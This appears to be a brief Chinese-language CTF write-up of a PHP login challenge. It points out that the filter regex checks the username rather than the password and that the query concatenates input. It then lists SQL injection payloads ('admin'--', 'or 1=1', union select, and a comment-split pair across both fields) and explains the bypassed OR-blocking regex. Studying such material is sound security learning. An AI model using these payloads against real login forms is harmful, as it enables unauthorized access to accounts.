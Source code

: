 漏洞
1. $password_match = preg_match($pattern, $username);  怎麼是檢查 username ??
2. $query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";  sql injection 典型範例



解題流程
1. username injection

' union select 1 from users;--
admin'--

2. password

' or 1=1 ;--

或
username = '/*
password = */ or 1=1--


note:
/.*['\"].*OR.*/i

/ regex / 參數

. : 除了換行以外的字元
* : 任意個數 (可以 0 個)
[] : 可有可無 
\" : 相當於 " 避免跟前面的字串的上引號搞混，所以加 \

i : 不論大小寫

所以他會 ban 掉的字串為

(1) 任意字串'任意字串OR任意字串
(2) 任意字串"任意字串OR任意字串

OR Or oR or 都不行

